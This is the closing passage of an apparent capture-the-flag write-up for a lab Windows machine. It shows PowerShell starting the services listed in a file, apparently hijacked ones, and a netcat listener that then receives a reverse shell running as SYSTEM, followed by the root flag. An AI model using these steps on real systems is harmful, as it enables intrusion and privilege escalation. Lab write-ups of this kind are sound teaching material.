 Now we start a `nc` listner, and we start all the services

```powershell
PS C:\inetpub\wwwroot\uploads> Get-Content "C:\inetpub\wwwroot\uploads\sa.txt" | ForEach-Object {start-service $_} 2> $null
Get-Content "C:\inetpub\wwwroot\uploads\sa.txt" | ForEach-Object {start-service $_} 2> $null
PS C:\inetpub\wwwroot\uploads>
```

```sh
$nc -lnvp 1233
listening on [any] 1233 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.167] 62997
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> type root.txt
type root.txt
8f8613f5b4da391f36ef11def4cec1b1
PS C:\Users\Administrator\Desktop>
```

Done !

FIY, this is what my terminal looked like at the end


<img src="{{site.baseurl}}/assets/img/posts/control/Screenshot_at_2020-04-19_18-21-30.png" alt="Screenshot_at_2020-04-19_18-21-30.png" style="display: block;  margin-left: auto; margin-right: auto;" />

**Guanicoe**
